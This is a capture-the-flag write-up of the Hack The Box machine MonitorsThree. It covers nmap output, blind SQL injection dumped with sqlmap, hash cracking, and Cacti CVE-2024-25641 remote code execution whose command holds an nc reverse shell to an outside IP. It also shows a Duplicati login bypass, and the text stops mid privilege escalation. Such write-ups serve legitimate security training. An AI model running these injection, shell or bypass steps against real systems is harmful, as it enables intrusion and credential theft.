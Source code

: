 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```

MonitorsThree Writeup by <span style="color:yellow">jest</span>.

# Scan

```
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page on the monitorsthree site.:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)

Verified with the input '.

It looks to be blind.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8
```

We can try cracking the admin@monitorsthree credential:
```sh
hashcat -m 0 -a 0 31a181c8372e3afc59dab863430610e8 /usr/share/wordlists/rockyou.txt
```
This will provide a password.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

Cacti doesn't validate file names given through the package import feature, allowing it to write files onto the system or overwrite existing fils(even outside the cacti base path, as path traversal isn't filtered).

More can be found <a href="https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88">here.</a>

I used an automated attack found <a href="https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26">here.</a>

```python
my-venv/bin/python3 CVE-2024-25641.py \
    --user admin \
    --pass greencacti2001 \
    --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 666 >/tmp/f" \
    http://cacti.monitorsthree.htb/cacti/
```
After setting up a listener, this provides access to www-data on the machine.

Since cacti is in use, I enumerated that the credentials for the sql database were just the default cactiuser:cactiuser, so I could login and list the user hashes:

![image](https://github.com/user-attachments/assets/11e6e028-bacf-4c58-821e-94eb4945e8e2)

After cracking using hashcat, I can login as marcus via su:

![image](https://github.com/user-attachments/assets/91bc6910-641f-4d47-a441-ff2061cc073e)

&nbsp;

# Privilege Escalation

With a shell as marcus, I have to enumerate what this user can actually do.

I added my public key to the authorized key file and accessed the machine, whilst port forwarding 8200 on the box to port 8200 on my local machine.

I believe the path to root is related to duplicati backups, meaning we must crack the duplicati web ui shown on 8200 so we can access them.

There is a login bypass method <a href="https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee">here.</a>

We need to find and move sqlite files on the box to our machine so we can access the contents using sqlite browser, which we can then use to obtain the server passphrase.

![image](https://github.com/user-attachments/assets/8b203ff8-7992-4dde-98cc-dfeb34baf62b)

We can see that the above matches when attempting to login then examining our burpsuite history:

![image](https://github.com/user-attachments/assets/e0c87262-9259-43e1-b21d-3c1e32a805ae)

Now we know it matches due to the salt being the same, we need the passhprase to generate a valid login password, using the nonce provided by the server:

![image](https://github.com/user-attachments/assets/64646c82-5967-43a4-9780-dfd3e42f8dbd)

The first string shown above is the session_nonce given whenever a session is established, whilst the second is the passphrase from the sqlite database decoded from base64 then converted to hex, resulting in our password below. This is code duplicati uses to generate the noncedpwd, so we can use it to get our own valid credential with the knowledge from sqlite.

We can change the burpsuite password parameter in that session to the one we just generated and gain access to duplicati:

![image](https://github.com/user-attachments/assets/e46e6f8b-2417-4653-a6b0-0195665a12e1)





